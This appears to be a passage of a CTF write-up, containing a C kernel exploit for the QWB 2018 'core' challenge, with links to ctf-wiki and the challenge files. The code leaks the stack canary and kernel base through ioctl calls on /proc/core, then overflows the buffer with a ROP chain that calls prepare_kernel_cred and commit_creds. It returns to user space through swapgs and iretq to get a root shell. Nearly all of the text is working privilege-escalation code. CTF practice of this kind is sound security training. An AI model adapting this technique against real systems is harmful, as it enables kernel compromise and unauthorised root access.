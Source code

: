 ```c
#define OOB     0x6677889A
int main()
{
    char buf[0x1000];
    memset(buf,0,0x1000);
    int fd = open("/proc/core",2);
    if(!fd>0)
        Panic("Open");
    // Leak the data
    ioctl(fd,OFFSET,0x40);
    ioctl(fd,READ,buf);
    size_t canary           =  u64(buf);
    size_t base   =  u64(buf+0x20);
    printf("[+] Leaked Kernel Address => %p\n",base);
    printf("[+] Canary => %p\n",canary);

    // ret2user Space
    size_t * p = buf;
    size_t ct = 0x40/8;

    size_t prepare_creds    = base + (0xffffffff8109cce0-0xffffffff811dd6d1);
    size_t commit_cred      = base + (0xffffffff8109c8e0-0xffffffff811dd6d1);
    size_t rdi              = base + (0xffffffff81000b2f-0xffffffff811dd6d1);
    size_t rdx              = base + (0xffffffff810a0f49-0xffffffff811dd6d1);
    //mov rdi, rax; jmp rdx;
    size_t docall           = base + (0xffffffff8106a6d2-0xffffffff811dd6d1);
    size_t swapgs_pop       = base + (0xffffffff81a012da-0xffffffff811dd6d1);
    size_t iretq            = base + (0xffffffff81050ac2-0xffffffff811dd6d1);


    p[ct++] = canary;
    p[ct++] = 0xdeadbeef;
    p[ct++] = rdi;
    p[ct++] = 0;
    p[ct++] = prepare_creds;
    p[ct++] = rdx;
    p[ct++] = commit_cred;
    p[ct++] = docall;
    
    //Back to user space
    p[ct++] = swapgs_pop;
    p[ct++] = 0;
    p[ct++] = iretq;
    save_status();
    p[ct++] = shell;
    p[ct++] = user_cs;
    p[ct++] = user_rflags;
    p[ct++] = user_sp;
    p[ct++] = user_ss;


    // Attack
    write(fd,buf,0x100);
    size_t poc = 1;
    poc = (poc<<63) | 0x100;
    ioctl(fd,OOB,poc);  
}
```


[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment/tree/main/QWB_2018/core
